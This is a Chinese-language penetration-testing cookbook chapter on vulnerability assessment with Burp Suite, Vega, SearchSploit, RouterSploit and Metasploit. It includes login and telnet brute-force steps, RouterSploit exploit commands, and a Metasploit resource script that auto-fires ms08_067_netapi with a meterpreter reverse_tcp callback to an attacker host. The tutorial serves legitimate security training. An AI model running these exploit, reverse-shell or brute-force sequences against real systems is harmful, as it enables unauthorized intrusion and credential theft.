# 第三章：漏洞评估

在本章中，我们将介绍以下食谱：

+   使用臭名昭著的 Burp

+   使用 Wsdler 利用 WSDL

+   使用入侵者

+   使用 Vega 进行 Web 应用程序渗透测试

+   探索 SearchSploit

+   使用 RouterSploit 利用路由器

+   使用 Metasploit

+   自动化 Metasploit

+   编写自定义资源脚本

+   Metasploit 中的数据库

# 介绍

在之前的章节中，我们介绍了收集有关目标信息的各种方法。现在，一旦我们拥有了所有这些数据，我们就需要开始寻找漏洞。要成为一名优秀的渗透测试人员，我们需要确保没有忽视任何细节。

# 使用臭名昭著的 Burp

Burp 已经存在多年了；它是由 PortSwigger web security 用 Java 构建的多个工具的集合。它有各种产品，如解码器、代理、扫描器、入侵者、重复者等等。Burp 具有一个扩展程序，允许用户加载不同的扩展，可以用来使渗透测试更加高效！您将在即将到来的食谱中了解其中一些。

# 如何做...

让我们看看如何有效地使用 Burp：

1.  Kali 已经有一个免费版本的 Burp，但我们需要一个完整版本才能充分利用其功能。所以，我们打开 Burp：


1.  点击开始 Burp，我们将看到 Burp 加载：



1.  在我们开始寻找错误之前，我们首先安装一些可能会派上用场的扩展。从 Extender 菜单中选择 BApp Store：



1.  我们将看到一个扩展列表。我们将不得不安装一些扩展，如下所示：

+   J2EEScan

+   Wsdler

+   Java 反序列化扫描器

+   HeartBleed

1.  选择每个扩展后，点击安装。

1.  一旦扩展都设置好了，我们就准备开始扫描。我们启动浏览器并进入其偏好设置：


1.  在网络设置中，我们添加我们的 HTTP 代理 IP 和端口：


1.  我们可以在 Burp 的选项选项卡下的代理菜单下验证这一点：


1.  点击拦截开启请求拦截：



1.  现在我们浏览我们需要扫描的网站。

1.  一旦所有请求都被捕获，我们可以简单地转到目标并选择我们的域。

1.  要执行扫描，我们可以选择单个请求并将其发送进行主动扫描：


1.  或者，我们可以选择整个域发送进行主动扫描：


1.  一旦我们将请求发送到扫描器，我们将转到扫描器选项卡并选择选项。在这里，我们可以告诉扫描器我们希望在我们的应用程序中查找什么：


1.  我们可以在扫描队列选项卡中看到我们的扫描结果：



1.  扫描队列选项卡可以在以下截图中看到：


以下截图显示了更详细的扫描队列选项卡的结果：


虽然我们这里只使用了几个扩展，但你也可以查看整个列表并选择你自己的扩展。扩展很容易设置。

# 使用 Wsdler 利用 WSDL

**Web 服务描述语言**（**WSDL**）是一种基于 XML 的语言，用于描述 Web 服务提供的功能。在执行渗透测试项目时，我们经常会发现一个 WSDL 文件是公开的，没有经过身份验证。在这个食谱中，我们将看看我们如何从 WSDL 中受益。

# 如何做...

我们拦截 Burp 中的 WSDL 请求：

1.  右键单击请求并选择解析 WSDL：


1.  切换到 Wsdler 选项卡，我们将看到所有的服务调用。我们可以通过点击其中任何一个来查看完整的请求：


1.  为了能够进行调试，我们需要将其发送到 Repeater：


1.  右键单击并选择“发送到 Repeater”：


1.  在我们的情况下，我们可以看到输入单引号会引发错误。哇！我们有了一个 SQL 注入的可能性！


以下截图显示了 SQL 注入：


您将在本书的后面章节中了解更多关于利用 SQL 的内容。

# 使用入侵者

入侵者是一个很棒的工具，可以让我们执行不同类型的攻击，用来发现各种漏洞。入侵者可以执行的一些最常见的攻击如下：

+   暴力破解

+   模糊

+   枚举

+   应用层 DoS

# 如何做…

我们首先从捕获的请求中获取一个请求：

1.  右键单击请求并选择“发送到 Intruder”：


1.  切换到 Intruder 选项卡。我们需要指定有效载荷位置，可以通过选择我们想要的位置或选择有效载荷，然后单击“添加§”按钮来完成：



1.  在我们的情况下，由于我们正在执行登录暴力破解，我们将使用攻击类型 Pitchfork：


1.  接下来，我们切换到有效载荷选项卡。这是我们将输入有效载荷的地方：


1.  我们选择 set 1，并且由于我们正在进行暴力破解，我们可以选择一个简单的列表作为有效载荷类型。

1.  在有效载荷选项中，我们指定要对应用程序进行测试的单词列表。我们可以手动输入它们，也可以选择预先构建的列表：


1.  现在我们选择 set 2，并再次指定我们希望工具尝试的密码列表：


1.  Burp 允许我们通过配置选项来自定义攻击，例如线程数量、选择重定向选项，甚至在选项标签中进行 Grep - 匹配：



1.  我们点击“开始攻击”：


1.  一个新窗口将弹出，显示执行的攻击的所有结果。

在这里，我们只使用了一种攻击模式（Pitchfork）。可以在[`nitstorm.github.io/blog/burp-suite-intruder-attack-types/`](https://nitstorm.github.io/blog/burp-suite-intruder-attack-types/)了解有关入侵者不同攻击模式的更多信息。

# 使用 Vega 进行 Web 应用程序渗透测试

Vega 是一个内置的 Java Web 应用程序渗透测试工具。它具有基于 JavaScript 的 API，使其更加强大和灵活。Vega 在以下配方中非常容易使用，您将学习如何使用它执行扫描。

# 准备工作

一些 Kali 版本没有安装 Vega，但可以使用以下命令进行安装：

```
apt-get install vega  
```

# 如何做…

1.  Vega 内置在 Kali 中，可以使用以下命令启动：

```
 vega 
```

上述命令打开了 Vega 工具：


1.  在 Vega 中有两种启动扫描的方式——选择扫描器模式或代理模式。我们在这里看看扫描器模式。

1.  我们从扫描菜单中选择“开始新扫描”选项：


1.  在窗口中，我们输入网站的 URL 并点击“下一步”：



1.  然后，我们可以选择要运行的模块：



1.  在这一步中，我们可以输入 cookies：


1.  接下来，我们指定是否要排除任何参数，然后点击“完成”：


1.  我们可以在左侧窗格中看到结果和漏洞：


1.  点击警报会显示详细信息：


1.  与 Burp 类似，Vega 也具有代理功能，我们可以手动拦截和分析请求！

1.  我们可以编辑和重放请求以执行手动检查：


# 探索 SearchSploit

SearchSploit 是一个命令行工具，允许我们搜索和浏览`exploitdb`中所有可用的漏洞利用。

# 如何做...

1.  要查看帮助，我们输入以下命令：

```
    searchsploit -h
```

以下截图显示了前面命令的输出：


1.  我们可以通过简单输入关键字来进行搜索，如果想将漏洞利用复制到我们的工作目录中，我们使用这个：

```
     searchsploit -m exploitdb-id
```

以下截图是前面命令的示例：



# 使用 RouterSploit 来利用路由器

RouterSploit 是专为嵌入式设备设计的路由器利用框架。它由三个主要模块组成：

+   `exploits`：这包含了所有公开可用的漏洞利用列表

+   `creds`：这用于测试不同设备的登录

+   `scanners`：这用于检查特定设备的特定漏洞利用

# 准备工作

在开始之前，我们将不得不在 Kali 中安装 RouterSploit；不幸的是，它不随操作系统的官方安装而来。RouterSploit 的安装非常简单，就像我们在书的开头安装一些工具一样。

# 如何做...

1.  我们使用以下命令克隆 GitHub 存储库：

```
      git clone https://github.com/reverse-shell/routersploit
```

1.  我们使用`cd routersploit`命令进入目录，并按以下方式运行文件：

```
      ./rsf.py  
```

以下截图显示了*步骤 1*的输出：


1.  要对路由器运行漏洞利用，我们只需输入：

```
      use exploits/routername/exploitname
```

以下截图显示了前面命令的示例：


1.  现在我们看到了我们选择的漏洞利用的可用选项。我们使用以下命令：

```
      show options
```

以下截图显示了前面命令的输出：


1.  我们使用以下命令设置目标：

```
      set target 192.168.1.1
```

以下截图显示了前面命令的输出：


1.  要进行利用，我们只需输入`exploit`或`run`：


# 使用`scanners`命令

以下步骤演示了`scanners`的使用：

1.  要扫描 Cisco 路由器，我们使用以下命令：

```
 use scanners/cisco_scan
```

1.  现在我们检查其他选项：

```
 show options
```

以下截图显示了前面命令的输出：


1.  要对目标运行扫描，我们首先设置目标：

```
 set target x.x.x.x
```

以下截图显示了前面命令的输出：


1.  现在我们运行它，它会显示路由器易受攻击的所有漏洞：


# 使用凭证

这可以用来测试服务上的默认密码组合，通过字典攻击：

1.  我们使用`creds`命令对各种服务运行字典攻击：

```
      use creds/telnet_bruteforce 
```

以下截图显示了前面命令的输出：


1.  接下来，我们看看选项：

```
      show options
```

以下截图显示了前面命令的输出：


1.  现在我们设置目标 IP：

```
      set target x.x.x.x
```

1.  我们让它运行，它会显示任何找到的登录。


# 使用 Metasploit

Metasploit 是最广泛使用的开源渗透测试工具。它最初是由 HD Moore 在 2001 年用 Perl 开发的；后来，它完全重写为 Ruby，然后被 Rapid7 收购。

Metasploit 包含一系列利用、有效载荷和编码器，可用于在渗透测试项目中识别和利用漏洞。在本章中，我们将介绍一些能够更有效地使用**Metasploit Framework**（**MSF**）的示例。

# 如何做…

以下步骤演示了 MSF 的使用：

1.  通过输入以下命令启动 MSF：

```
        msfconsole
```

以下截图显示了前面命令的输出：



1.  要搜索漏洞，我们输入：

```
        search exploit_name
```

以下截图显示了前面命令的输出：


1.  要使用漏洞利用，我们输入：

```
        use exploits/path/to/exploit  
```

以下截图显示了前面命令的输出：


1.  接下来，我们通过输入以下内容来查看选项：

```
        show options  
```

1.  在这里，我们需要设置有效载荷、目标 IP、本地主机和我们想要的后向连接端口。

1.  我们使用以下命令设置目标：

```
        set RHOST x.x.x.x  
```

1.  我们使用以下命令设置有效载荷：

```
 set payload windows/meterpreter/reverse_tcp  
```

1.  接下来，我们设置我们想要连接的`lhost`和`lport`：

```
 set lhost x.x.x.x
 set lport 4444
```

1.  现在我们运行利用命令：

```
        exploit  
```

1.  成功利用后，我们将查看`meterpreter`会话：


尽管我们这里只使用了 Windows 的`reverse_tcp`，但 Metasploit 还有很多其他有效载荷，取决于后端操作系统或使用的 Web 应用程序。可以在[`www.offensive-security.com/metasploit-unleashed/msfpayload/`](https://www.offensive-security.com/metasploit-unleashed/msfpayload/)找到有效载荷的完整列表。

# 自动化 Metasploit

Metasploit 支持不同方式的自动化。我们将在这里介绍一种方式，即资源脚本。

**资源脚本**基本上是一组在加载脚本时自动运行的命令。Metasploit 已经包含了一组预先构建的脚本，在企业渗透测试环境中非常有用。可在`/usr/share/metasploit-framework/scripts/resource`目录中看到可用脚本的完整列表：


# 如何做…

以下步骤演示了 Metasploit 的自动化：

1.  我们使用以下命令启动 Metasploit：

```
        msfconsole 
```

前面命令的输出如下截图所示：


1.  一些脚本需要全局设置`RHOSTS`，因此我们使用以下命令设置`RHOSTS`：

```
        set RHOSTS 172.18.0.0/24 
```

前面命令的输出如下截图所示：


1.  现在我们使用以下命令运行脚本：

```
        resource /usr/share/metasploit-framework
        /scripts/resource/basic_discovery.rc
```

1.  此脚本将在提供的子网上进行基本主机发现扫描：


# 编写自定义资源脚本

在下一个示例中，我们将看看如何编写一个基本脚本。

# 如何做…

按照以下步骤编写基本脚本：

1.  我们打开任何编辑器—`nano`，`leafpad`等等。

1.  在这里，我们输入所有我们希望 MSF 执行的命令：

```
     use exploit/windows/smb/ms08_067_netapi
     set payload windows/meterpreter/reverse_tcp
     set RHOST 192.168.15.15
     set LHOST 192.168.15.20
     set LPORT 4444
     exploit -j
```

1.  我们将脚本保存为`.rc`扩展名：


1.  现在我们启动`msfconsole`并输入命令自动利用机器：


资源脚本只是自动化 Metasploit 的一种方式；您可以在[`community.rapid7.com/community/metasploit/blog/2011/12/08/six-ways-to-automate-metasploit`](https://community.rapid7.com/community/metasploit/blog/2011/12/08/six-ways-to-automate-metasploit)中了解其他自动化 Metasploit 的方式。

# Metasploit 中的数据库

在 Kali Linux 中，我们必须在使用数据库功能之前设置数据库。

# 如何做…

以下步骤演示了数据库的设置：

1.  首先，我们使用以下命令启动`postgresql`服务器：

```
        service postgresql start  
```

以下截图显示了前面命令的输出：


1.  然后，我们创建数据库并初始化：

```
        msfdb init  
```

1.  完成后，我们加载`msfconsole`。现在我们可以在 Metasploit 中创建和管理工作空间。工作空间可以被视为一个空间，我们可以在其中保存所有 Metasploit 数据并进行分类。要设置新的工作空间，我们使用以下命令：

```
        workspace -a workspacename
```

以下截图显示了上述命令的输出：


1.  要查看与工作空间相关的所有命令，我们可以执行以下命令：

```
 workspace -h  
```

1.  现在我们已经设置好了数据库和工作空间，我们可以使用各种命令与数据库进行交互。

1.  要将现有的 Nmap 扫描导入到我们的数据库中，我们使用以下命令：

```
        db_import  path/to/nmapfile.xml
```

以下截图显示了上述命令的输出：


1.  导入完成后，我们可以使用以下命令查看主机：

```
 hosts
```

以下截图显示了上述命令的输出：


1.  只查看 IP 地址和操作系统类型，我们使用以下命令：

```
        hosts -c address,os_flavor
```

以下截图显示了上述命令的输出：



1.  现在假设我们想要执行 TCP 辅助扫描。我们也可以将所有这些主机设置为辅助扫描的`RHOSTS`。我们使用以下命令来实现这一点：

```
        hosts -c address,os_flavor -R  
```

以下截图显示了上述命令的输出：


1.  由于`RHOSTS`已经设置，它们可以在 Metasploit 中的任何所需模块中使用。

1.  让我们再看一个例子，我们导入的 Nmap 扫描已经包含了我们需要的所有数据。我们可以使用以下命令列出数据库中的所有服务：

```
        services
```

1.  要仅查看已启动的服务，我们可以使用`-u`开关：


1.  我们甚至可以使用`-p`开关按特定端口查看列表：


